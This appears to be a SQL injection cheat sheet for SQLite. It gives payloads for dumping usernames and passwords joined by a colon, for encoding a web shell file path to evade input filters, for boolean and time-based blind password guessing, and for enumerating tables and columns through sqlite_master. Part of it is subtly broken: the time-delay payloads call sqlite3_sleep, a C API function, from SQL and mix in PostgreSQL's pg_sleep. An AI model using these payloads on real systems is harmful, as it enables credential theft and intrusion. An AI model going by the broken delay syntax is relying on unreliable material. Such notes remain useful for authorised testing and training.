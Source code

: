 # [SQLite](https://en.wikipedia.org/wiki/SQLite)

> A relational database management system(RDBMS) contained in a C library. In contrast to many other database management systems, SQLite is not a client–server database engine. Rather, it is embedded into the end program. Often stores the database in a file.

## Comment Syntax

1. `--` denotes a single-line comment
	* `--COMMENT HERE`
	* No required whitespace, unlike MySQL
2. `/* */` denotes a multi-line comment
	* `/*COMMENT HERE*/` 

---

## Version Query Syntax

```sql
SELECT sqlite_version()
```

---

## String Concatenation Syntax

```sql
SELECT username||':'||password FROM users
```

* Can concatenate both column names and string literals in any order

---

## Cast an Integer into a Character

```sql
-- CAST($INTEGER as text)
```

```sql
SELECT path FROM paths WHERE path = CONCAT(CAST(47 as text),'var',CAST(47 as text),'www',CAST(47 as text),'html',CAST(47 as text),'shell',CAST(46 as text),'php') -- /var/www/html/shell.php
```

* Especially helpful for bypassing tricky input restrictions on file paths (i.e., no `/`, `\`, and `.` allowed)

---

## Substring Syntax

```sql
SUBSTR($STRING, $START_INDEX, $LENGTH)
```

```sql
SELECT COUNT(*) FROM users WHERE SUBSTR(password,1,1) > 'm'
```
* Indices start at 1

---

## Conditional Syntax

```sql
SELECT CASE WHEN ($CONDITION) THEN $VALUE_IF_TRUE ELSE $VALUE_IF_FALSE END
```

```sql
SELECT CASE WHEN (COUNT(*) = 1) THEN 1 ELSE 0 END FROM users WHERE username = 'admin' and password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

---

## Time Delay Syntax

[Reference](https://www.sqlitetutorial.net/sqlite-case/)

### Unconditionally wait 10 seconds

```sql
SELECT sqlite3_sleep(10000)
```

### Conditionally wait 10 seconds

```sql
SELECT CASE WHEN ($CONDITION) THEN sqlite3_sleep(10000) ELSE pg_sleep(0) END
```

---

## Table enumeration

```sql
SELECT name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%'
```
* Useful columns: `NAME`
* [`sqlite_master` Columns](https://www.sqlite.org/schematab.html)

---

## Table Column Enumeration

```sql
SELECT sql FROM sqlite_master WHERE type = 'table' AND name = '$TABLE_NAME'
```
* `sql` column stores the SQL string that describes the object. In this instance, it stores the `CREATE TABLE` statement that created `$TABLE_NAME`. This will give you the columns and their types.
* [`sqlite_master` Columns](https://www.sqlite.org/schematab.html)

---

## Interact with a SQLite Database File from the Command Line

```bash
sqlite3 $DATABASE_FILE
```
